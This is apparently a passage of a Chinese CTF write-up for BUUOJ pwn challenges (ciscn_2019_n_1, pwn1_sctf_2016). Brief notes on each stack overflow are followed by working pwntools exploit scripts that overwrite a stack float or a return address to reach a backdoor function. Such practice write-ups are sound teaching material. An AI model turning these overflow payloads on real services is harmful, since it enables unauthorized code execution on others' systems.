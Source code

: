 ```python
p.sendline(payload)
p.interactive()
```

## ciscn_2019_n_1
### 思路
可以覆盖栈中的浮点数，也可以直接覆盖返回地址

### exp
#### 覆盖浮点数
```python
from pwn import *
import struct

p = remote("node5.buuoj.cn",28058)
#p = process("./ciscn_2019_n_1")

payload = b'a'*44+struct.pack("<fx",11.28125)

p.sendline(payload)
p.interactive()
```

#### 覆盖返回地址
```python
from pwn import *

p = remote("node5.buuoj.cn",26493)
#p = process("./ciscn_2019_n_1")

catflag_addr = 0x4006be
payload = b'a'*56+p64(catflag_addr)

p.sendline(payload)
p.interactive()
```

## pwn1_sctf_2016
### 思路
程序中替换了输入中的'I'为'you'，并赋值回原位置，从而造成了栈溢出

### exp
```python
from pwn import *

p = remote('node5.buuoj.cn',26533)
backdoor = 0x08048F0D
payload = b'I'*20+b'aaaa'+p32(backdoor)
p.sendline(payload) 
p.interactive()
```
